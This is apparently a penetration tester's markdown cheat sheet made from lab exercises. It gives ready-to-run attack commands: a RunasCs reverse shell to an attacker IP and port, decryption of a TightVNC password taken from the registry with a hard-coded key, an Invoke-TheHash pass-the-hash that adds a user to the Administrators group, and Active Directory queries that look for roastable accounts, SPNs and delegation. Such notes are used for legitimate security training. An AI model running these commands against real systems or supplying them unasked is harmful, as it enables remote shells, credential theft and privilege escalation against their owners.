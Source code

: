 ```powershell
```
## RunasCs
https://github.com/antonioCoco/RunasCs
```powershell
.\RunasCs.exe username password cmd.exe -r 10.10.14.83:7777
```
## TightVNC
https://github.com/frizb/PasswordDecrypts
```bash
reg query HKLM\SOFTWARE\TightVNC\Server /s
echo -n 816ECB5CE758EAAA | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -Cv

# Linux
apt-get install xtightvncviewer
echo VNCFake1 | proxychains4 -q vncviewer 172.20.0.52 -autopass -quality 0 -nojpeg -compresslevel 1 -encodings "tight hextile" -bgr233
```

## Invoke-TheHash
https://github.com/Kevin-Robertson/Invoke-TheHash
```powershell
Invoke-TheHash -Type SMBExec -Target localhost -Username Administrator -Hash 2b576acbe6bcfda7294d6bd18041b8fe -Command "net localgroup Administrators own_user /add"
```

# Discovery
## Windows
### LOLBIN
```powershell
# AD Module
Import-Module ActiveDirectory

# admin
Get-ADGroup -Filter "adminCount -eq 1" | select Name
# Group joined Harry Jones
Get-ADGroup -Filter 'member -RecursiveMatch "CN=Harry Jones,OU=Network Ops,OU=IT,OU=Employees,DC=INLANEFREIGHT,DC=LOCAL"'
Get-ADGroup -LDAPFilter '(member:1.2.840.113556.1.4.1941:=CN=Harry Jones,OU=Network Ops,OU=IT,OU=Employees,DC=INLANEFREIGHT,DC=LOCAL)' |select Name
# description
Get-ADUser -Properties * -LDAPFilter '(&(objectCategory=user)(description=*))' | select samaccountname,description
# SPN
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
# ASREPRoast
Get-ADUser -Filter {DoesNotRequirePreAuth -eq 'True'}
# trusted for delegation
Get-ADUser -Properties * -LDAPFilter '(userAccountControl:1.2.840.113556.1.4.803:=524288)'
Get-ADComputer -Properties * -LDAPFilter '(userAccountControl:1.2.840.113556.1.4.803:=524288)'

# DACL
## Enum to user01
dsacls.exe ' CN=user01,CN=Users,DC=INLANEFREIGHT,DC=LOCAL'
```
### PowerView
https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon <br/>
https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters/powerview